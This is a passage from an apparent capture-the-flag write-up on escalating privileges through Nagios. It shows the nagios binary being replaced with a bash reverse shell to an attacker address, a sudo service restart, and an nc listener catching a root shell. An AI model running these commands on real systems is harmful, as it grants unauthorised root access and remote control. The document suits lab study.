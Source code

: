 ```bash
---
/usr/local/nagios/bin/nagios
---
so if we replace bin with script it will execute it when we restart nagios.

in real word scenario we must avoid theis method as it miss with the service and with its availability

```

```bash
nagios@monitored:/$ cd /usr/local/nagios/bin/      
cd /usr/local/nagios/bin/
nagios@monitored:/usr/local/nagios/bin$ ls
ls
nagios
nagiostats
ndo.so
ndo-startup-hash.sh
npcd
npcdmod.o
nrpe
nrpe-uninstall
nsca
nagios@monitored:/usr/local/nagios/bin$ 

```

```bash
nagios@monitored:/usr/local/nagios/bin$ ls
nagios       nagios.save  ndo.so               npcd       nrpe            nsca
nagios2.bak  nagiostats   ndo-startup-hash.sh  npcdmod.o  nrpe-uninstall
nagios@monitored:/usr/local/nagios/bin$ cat nagios
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.5/9999 0>&1
nagios@monitored:/usr/local/nagios/bin$ 

```

```bash
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios2
```

```bash
┌──(pwn㉿kali)-[~]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.248] 58506
bash: cannot set terminal process group (15539): Inappropriate ioctl for device
bash: no job control in this shell
root@monitored:/# ls

```


![[Pasted image 20250206125141.png]]

![[Pasted image 20250206125319.png]]

